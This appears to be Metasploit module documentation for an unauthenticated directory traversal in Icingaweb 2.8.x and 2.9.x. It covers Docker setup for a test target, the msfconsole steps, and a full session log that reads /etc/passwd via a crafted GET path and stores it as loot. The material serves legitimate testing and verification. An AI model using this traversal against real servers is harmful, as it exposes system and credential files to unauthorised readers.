 
## Vulnerable Application

Icingaweb versions from 2.9.0 to 2.9.5 inclusive, and 2.8.0 to 2.8.5 inclusive suffer from an
unauthenticated directory traversal vulnerability. The vulnerability is triggered
through the icinga-php-thirdparty library, which allows unauthenticated users 
to retrieve arbitrary files from the targets filesystem via a GET request to
`/lib/icinga/icinga-php-thirdparty/<absolute path to target file on disk>` as the user
running the Icingaweb server, which will typically be the `incinga` user.

This can then be used to retrieve sensitive configuration information from the target
such as the configuration of various services, which may reveal sensitive login or configuration information,
the `/etc/passwd` file to get a list of valid usernames for password guessing attacks, or other sensitive files 
which may exist as part of additional functionality available on the target server.

This module was tested against Icingaweb 2.9.5 running on Docker.

## Install Icingaweb 2.9.5 on a Ubuntu 22.04 Docker Image

```
sudo apt-get install docker.io -y
sudo docker run -p 8080:8080 icinga/icingaweb2:2.9.5
```

Browse to port 8080 to confirm the site loads. No need to configure.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/icinga_static_library_file_directory_traversal`
4. Do: `set rhosts [ip]`
5. Do: `set file [file]`
6. Do: `run`
7. You should be able to retrieve a file

## Scenarios

### Icingaweb 2.9.5 on Ubuntu 22.04 running on Docker

```
[*] Processing icinga.rb for ERB directives.
resource (icinga.rb)> use scanner/http/icinga_static_library_file_directory_traversal
resource (icinga.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (icinga.rb)> set file /etc/passwd
file => /etc/passwd
resource (icinga.rb)> check
[*] 127.0.0.1:8080 - The service is running, but could not be validated. 127.0.0.1:8080     - Icinga Web 2 found, unable to determine version.
resource (icinga.rb)> run
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

[+] /etc/passwd saved to /root/.msf4/loot/20230421161654_default_127.0.0.1_icingafile_070863.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (icinga.rb)> loot

Loot
====

host          service  type         name         content     info  path
----          -------  ----         ----         -------     ----  ----
127.000.0.01           icinga file  /etc/passwd  text/plain        /root/.msf4/loot/20230421161654_default_127.0.0.1_icingafile_070863.txt
```
